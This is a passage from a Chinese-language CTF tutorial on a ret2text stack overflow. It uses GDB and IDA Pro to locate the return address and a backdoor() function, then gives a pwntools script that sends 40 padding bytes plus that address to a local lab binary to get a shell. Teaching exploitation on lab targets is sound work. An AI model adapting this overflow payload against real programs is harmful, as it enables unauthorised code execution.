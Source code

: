 7. 继续步过，输入合法内容，然后使用`stack`命令查看当前栈

   > <img src="./img/36.png">

8. 从上图中可以看出，`0x7fffffffdd48`地址，即`rbp +8`的地址就是函数的返回地址，也就是我们需要溢出覆盖的位置。现在返回`IDA Pro`，查看`backdoor()`函数的的内存地址，这个地址就是需要覆盖的`0x7fffffffdd48`地址的值

   > <img src="./img/37.png">

9. 已知后门函数的地址为`0x04011FB`，现在我们需要计算覆盖函数返回地址需要的字节数。在上文中可以看到`rbp`前的字节数是`0x20`，即32字节，而在64位系统中，`rbp`本身需要占用8字节，因此总共需要40字节的垃圾数据，然后拼接需要返回的函数地址`0x04011FB`
   ```py
   from pwn import *
   
   # 连接本地程序
   io = process('./ret2text')
   # shell地址
   shell = 0x004011FB
   # payload
   payload = b'A' * 32 + b'B' * 8 + p64(shell)
   
   io.recvline()
   io.sendline(payload)
   io.interactive()
   ```